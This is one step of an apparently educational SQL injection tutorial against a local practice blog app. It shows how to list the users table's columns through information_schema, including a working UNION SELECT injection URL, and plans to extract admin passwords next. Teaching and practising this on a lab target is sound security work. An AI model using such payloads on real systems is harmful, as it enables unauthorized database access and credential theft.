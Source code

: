 # (f) Get columns of users table

The plan here is to **list all the columns** of the table **users**, where we think is all the information (username, password, etc) about users.

The [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html) database we discussed in the previous steps also store information about all the columns in every table of every database.

This information is stored in a table called **COLUMNS**.

So, to get all the columns of our target table we have to query that *COLUMNS* table, like this:
```shell
SELECT column_name FROM information_schema.columns WHERE table_schema='insecure_blog' AND table_name='users' LIMIT 1 OFFSET 0
```

> **Note #1:**
>
> Remember the **information_schema.columns** structure? Take a look:
>
> | TABLE_SCHEMA  | TABLE_NAME    | COLUMN_NAME  |
> | ------------- |:-------------:| ------------:|
> | insecure_blog | users         | id           |
> | insecure_blog | users         | username     |
> | insecure_blog | users         | firstname    |
> | insecure_blog | users         | lastname     |
> | insecure_blog | users         | avatar       |
> 
> We are quering the **COLUMN_NAME**


Just like before we inject the query in the browser:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_schema='insecure_blog' AND table_name='users' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```

And keep **increasing the OFFSET** value to get all the columns.


> **Note #2:**
>
> Remember that we use **LIMIT** and **OFFSET** for listing one column at a time, avoiding errors


--

If all went well, we will have 8 columns:

- id
- username
- password
- isAdmin
- firstname
- lastname
- avatar
- description

**isAdmin** looks like a column with a boolean value. One could guess that all admin users will have this column set to **true** or **1**.

So next step will be getting all users with *isAdmin=true* and then getting the passwords.